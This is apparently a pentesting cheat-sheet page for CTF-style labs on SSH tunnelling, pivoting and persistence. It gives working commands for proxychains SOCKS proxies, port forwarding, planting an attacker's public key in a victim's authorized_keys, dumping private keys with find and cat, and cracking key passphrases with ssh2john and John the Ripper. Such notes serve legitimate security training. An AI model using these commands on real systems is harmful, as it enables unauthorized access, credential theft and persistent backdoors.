 ```yaml
---
icon: person-to-portal
---
```


# Pivoting/Lateral Movement

## <mark style="color:purple;">Lateral Movement</mark>

{% hint style="info" %}
### <mark style="color:purple;">`SSH`</mark> <mark style="color:purple;"></mark><mark style="color:purple;">Tunneling</mark>

* <mark style="color:purple;">Check with port is being used by</mark> <mark style="color:orange;">**`proxychains`**</mark>:

```sh
tail /etc/proxychains.conf
```

#### <mark style="color:purple;">Dynamic Port Forwarding</mark>

* <mark style="color:orange;">**`ssh`**</mark> <mark style="color:purple;">creating a</mark> <mark style="color:orange;">**`SOCK proxy`**</mark><mark style="color:purple;">**:**</mark>

```sh
ssh charix@10.10.10.84 -D 9050
```

* <mark style="color:purple;">Now just use</mark> <mark style="color:orange;">**`proxychains`**</mark><mark style="color:purple;">**:**</mark>

{% code title="VNC example" %}
```sh
proxychains vncviewer 127.0.0.1:5901 -passwd secret
```
{% endcode %}

***

#### <mark style="color:purple;">Local Port Forwarding</mark>

```sh
ssh -L 3306:localhost:3306 user@remotehost.com
```
{% endhint %}

***

## <mark style="color:purple;">Persistence</mark>

***

{% hint style="info" %}
## <mark style="color:purple;">Pivoting to SSH</mark>

### <mark style="color:purple;">SSH Key Injection</mark>

{% code title="Generate SSH Keys" %}
```sh
ssh-keygen -t ed25519 -f key
```
{% endcode %}

* <mark style="color:purple;">To make sure the execute properly give it restricted permissions:</mark>

```sh
chmod 600 id_rsa
```

* <mark style="color:purple;">If</mark> <mark style="color:orange;">**`authorized_keys`**</mark> <mark style="color:purple;">file doesn't exist create one with your public key:</mark>

```sh
echo "ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIJsqrD2TiYF/KEidiuQncxpjkUU4CDS2A3lmhz1jeHIi b0llull0s@p4n1c" > /home/dvir/.ssh/authorized_keys
```

* <mark style="color:purple;">Other wise append your public key:</mark>

```sh
echo "ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIJsqrD2TiYF/KEidiuQncxpjkUU4CDS2A3lmhz1jeHIi b0llull0s@p4n1c" >> /home/dvir/.ssh/authorized_keys
```

* <mark style="color:purple;">Now just connect with your private key:</mark>

```sh
ssh -i key dvir@10.10.11.8
```

### <mark style="color:purple;">Using Existing keys</mark>

{% code title="Look for the private key" %}
```bash
find /home/user -name "id_*" -exec cat {} \;
```
{% endcode %}

* <mark style="color:purple;">Once you find it, just copy the key in your</mark> <mark style="color:orange;">**`.ssh`**</mark> <mark style="color:purple;">directory and ssh in.</mark>
* <mark style="color:purple;">Also you can, check If the Corresponding private/public Key is known by using this</mark> [<mark style="color:orange;">**`repo`**</mark>](https://github.com/rapid7/ssh-badkeys)<mark style="color:purple;">.</mark>

### <mark style="color:purple;">Crack the passphrase</mark>&#x20;

***

* <mark style="color:purple;">Once you got the private key, you can use</mark> <mark style="color:orange;">**`ssh2john`**</mark> <mark style="color:purple;">to generate a hash from the key:</mark>

```bash
ssh2john private_key > private_key.hash
```

* <mark style="color:purple;">Then feed this hash into</mark> <mark style="color:orange;">**`John the Ripper`**</mark><mark style="color:purple;">:</mark>

```bash
john private_key.hash --wordlist=/path/to/wordlist
```
{% endhint %}


